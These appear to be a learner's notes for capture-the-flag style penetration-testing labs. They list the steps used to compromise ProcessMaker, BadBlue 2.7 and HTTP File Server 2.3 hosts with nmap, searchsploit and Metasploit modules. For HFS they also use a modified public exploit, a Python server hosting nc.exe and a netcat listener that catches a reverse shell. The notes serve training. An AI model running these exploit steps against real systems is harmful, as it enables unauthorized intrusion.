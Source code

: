 # Labs
### Lab: Windows - Workflow platform
1. scan
2. check credentials online for proccess maker
3. `searchsploit ProcessMaker` 
4. launch msfconsole
5. create workspace: workspace -a nameofworkspace
6. `search processmaker`
7. use 0
8. set RHOSTS 10.10.x.x -> run
9. get flag

### Lab: Windows: File and Keylogging
1. `nmap -sV 10.10.x.x`
2. `searchsploit badblue 2.7`
3. `msfconsole` -> `use exploit/windows/http/badblue_passthru` --> `set RHOSTS 10.0.0.71` --> run
4. `shell`
5. search flag

### Lab: HTTP File Server
1. scan: nmap
2. searchsploit: `searchsploit HTTP File Server 2.3`
3. copy to desktop: `searchsploit -m 39161`
4. vim(change exploit, IP, PORT): `vim 39161`
5. start pyhton server: `python -m SimpleHTTPServer 80`
6.  copy netcat:  `cp /usr/share/windows-resources/binaries/nc.exe .`
7. netcat: `nc -nvlp 443`
8. lunch script: `python39161.py 10.10.x.x 80`
9. get flag
